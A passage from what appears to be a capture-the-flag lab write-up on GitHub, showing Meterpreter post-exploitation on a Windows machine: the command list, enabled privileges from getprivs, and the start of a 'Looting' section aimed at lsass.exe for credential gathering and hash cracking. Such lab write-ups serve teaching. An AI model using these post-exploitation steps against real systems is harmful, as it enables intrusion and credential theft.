 ```bash
    shutdown                  Shuts down the remote computer
    steal_token               Attempts to steal an impersonation token from the target process
    suspend                   Suspends or resumes a list of processes
    sysinfo                   Gets information about the remote system, such as OS

meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

The permission `SeTakeOwnershipPrivilege` allows us to take ownership of files

# Looting


Gather additional credentials and crack the saved hashes on the machine.

The service that is responsible for Windows authentication is `lsass.exe`; we need to interact with this process. List all the processes using `ps` command

<img width="1555" height="802" alt="image" src="https://github.com/user-attachments/assets/e85d9ced-23f8-4da5-9e99-ef61b061fe7d" />


```bash
meterpreter > getpid
Current pid: 1628
meterpreter > getuid
Server username: Dark-PC\Dark
```
The current process we are running is:
```bash
PID   PPID  Name            Arch  Session  User          Path
 ---   ----  ----            ----  -------  ----          ----
 1628  2936  powershell.exe  x86   1        Dark-PC\Dark  C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe

```
